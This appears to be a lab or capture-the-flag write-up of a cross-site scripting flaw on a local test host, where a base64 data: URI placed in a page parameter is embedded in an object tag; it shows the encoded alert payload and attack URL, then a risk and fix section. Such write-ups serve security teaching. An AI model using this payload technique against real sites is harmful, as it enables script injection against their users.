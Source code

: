 # Media

http://192.168.56.101/index.php?page=media&src=nsa

`src` argument inserted directly into `data` field of `object` tag

```html
<object data="http://192.168.56.101/images/nsa_prism.jpg"></object>
```

Injecting html normally won't work because quotation marks are handled properly

It is possible, however, to inject serialized html

```bash
$ echo '<script>alert("WHEE")</script>' | base64
PHNjcmlwdD5hbGVydCgiV0hFRSIpPC9zY3JpcHQ+Cg==
```

This produces a serialized version of the script to be run

Replacing special characters leaves us with `PHNjcmlwdD5hbGVydCgiV0hFRSIpPC9zY3JpcHQ%2BCg%3D%3D`

Setting a few more options to be run allows us to embed any html into the webpage like this

```html
http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiV0hFRSIpPC9zY3JpcHQ%2BCg%3D%3D
```

## Risk

User can execute arbitrary code on client machine

## Fix

Don't display exactly what the user gives you

Encode it or use a table of expected values
